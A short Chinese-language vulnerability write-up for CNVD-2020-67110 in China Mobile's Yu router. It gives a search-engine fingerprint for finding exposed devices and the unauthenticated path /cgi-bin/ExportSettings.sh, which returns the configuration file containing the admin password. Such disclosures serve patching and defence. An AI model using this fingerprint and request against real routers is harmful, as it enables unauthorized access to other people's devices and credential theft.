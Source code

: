 # 

# 中国移动 禹路由 ExportSettings.sh 敏感信息泄露漏洞 CNVD-2020-67110

## 漏洞描述

中国移动 禹路由 ExportSettings.sh 存在敏感信息泄露漏洞，攻击者通过漏洞获取配置文件，其中包含账号密码等敏感信息

## 漏洞影响

```
中国移动 禹路由
```

## 网络测绘

```
title="互联世界 物联未来-登录"
```

## 漏洞复现

登录页面如下

![](./images/202202162254794.png)

访问Url

```plain
/cgi-bin/ExportSettings.sh
```

![](./images/202202162254659.png)

其中password为登录后台密码
